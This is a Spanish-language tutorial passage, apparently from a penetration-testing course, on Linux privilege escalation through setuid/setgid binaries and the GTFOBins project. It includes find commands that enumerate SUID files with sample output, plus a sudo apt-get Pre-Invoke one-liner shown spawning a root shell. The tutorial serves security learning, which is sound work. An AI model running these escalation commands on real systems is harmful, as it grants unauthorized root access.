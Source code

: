 El permiso `Set User ID upon Execution` (`setuid`) puede permitir a un usuario ejecutar un programa o script con los permisos de otro usuario, típicamente con privilegios elevados. El bit `setuid` aparece como una `s`.

```r
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31 02:51 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31 00:50 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9 14:54 /sbin/mount.nfs
```

Puede ser posible hacer ingeniería inversa (reverse engineering) al programa con el bit `setuid` activado, identificar una vulnerabilidad y explotarla para escalar nuestros privilegios. Muchos programas tienen características adicionales que pueden aprovecharse para ejecutar comandos y, si el bit `setuid` está activado en ellos, estos pueden usarse para nuestro propósito.

El permiso Set-Group-ID (setgid) es otro permiso especial que nos permite ejecutar binarios como si fuéramos parte del grupo que los creó. Estos archivos pueden enumerarse usando el siguiente comando: `find / -uid 0 -perm -6000 -type f 2>/dev/null`. Estos archivos pueden aprovecharse de la misma manera que los binarios `setuid` para escalar privilegios.

```r
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
```

Este [recurso](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits) tiene más información sobre los bits `setuid` y `setgid`, incluyendo cómo establecer los bits.

---

## GTFOBins

El proyecto [GTFOBins](https://gtfobins.github.io/) es una lista curada de binarios y scripts que pueden ser utilizados por un atacante para evadir restricciones de seguridad. Cada página detalla las características del programa que pueden usarse para escapar de restricted shells, escalar privilegios, establecer conexiones de reverse shell y transferir archivos. Por ejemplo, `apt-get` puede usarse para escapar de entornos restringidos y generar un shell agregando un comando Pre-Invoke:

```r
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
```

Vale la pena familiarizarse con tantos GTFOBins como sea posible para identificar rápidamente configuraciones erróneas cuando caemos en un sistema donde debemos escalar nuestros privilegios para avanzar más.